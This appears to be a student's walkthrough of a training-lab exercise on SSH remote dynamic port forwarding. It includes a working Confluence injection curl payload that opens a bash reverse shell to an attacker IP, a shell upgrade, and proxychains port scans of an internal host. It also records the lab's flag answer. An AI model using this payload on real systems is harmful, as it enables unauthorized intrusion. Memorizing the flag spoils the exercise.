 # Questions 1 
Follow the steps in this section to set up a remote dynamic port forward from CONFLUENCE01. Scan ports 9000-9100 on MULTISERVER03 through it. Which port is open? (Note: Make sure to scan MULTISERVER03 on its internal interface at 10.4.X.64).

# HINT
Repeat the steps in this learning unit. In the last step, you can conduct a port scan on host 10.4.X.64 (make sure to adjust the third subnet accordingly) on ports 9000-9100 using either netcat or Nmap.

# Lets try to get the CONFLUENCE01 shell
# Setup MSFConsole to listen port 4444
curl -v http://192.168.180.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.237/4444%200%3E%261%27%29.start%28%29%22%29%7D/

# Upgrade to fully interactive
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Reverse Dynamic Port forward
ssh -N -R 9998 kali@192.168.45.237
nano /etc/proxychains4.conf
...
socks5 127.0.0.1 9998
...

# Run the nmap with proxychains
proxychains nmap -vvv -sT -p9000-9100 -Pn -n 10.4.180.64
# Failed, found out is proxychains dont allow ICMP, we can use nc to find it
proxychains -q /usr/bin/nc.traditional -zv 10.4.180.64 9000-9100 -w 1
...
10.4.180.64 [10.4.180.64] 9062 (?) open : Operation now in progress
...

# Questions 2
Capstone Exercise: Download the ssh_remote_dynamic_client binary from the CONFLUENCE01 web server at http://CONFLUENCE01:8090/exercises/ssh_remote_dynamic_client. Run it against the port you just found on MULTISERVER03 through the remote dynamic port forward.
Note: the source files used to build the ssh_remote_dynamic_client binary can be downloaded from /exercises/client_source.zip.

# Obtain payload
wget http://192.168.180.63:8090/exercises/ssh_remote_dynamic_client

chmod 755 ssh_remote_dynamic_client

proxychains ./ssh_remote_dynamic_client -i 10.4.180.64 -p 9062
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.180.64:9062  ...  OK
Flag: "OS{b4243874761e5d977264548a075b538b}"
...


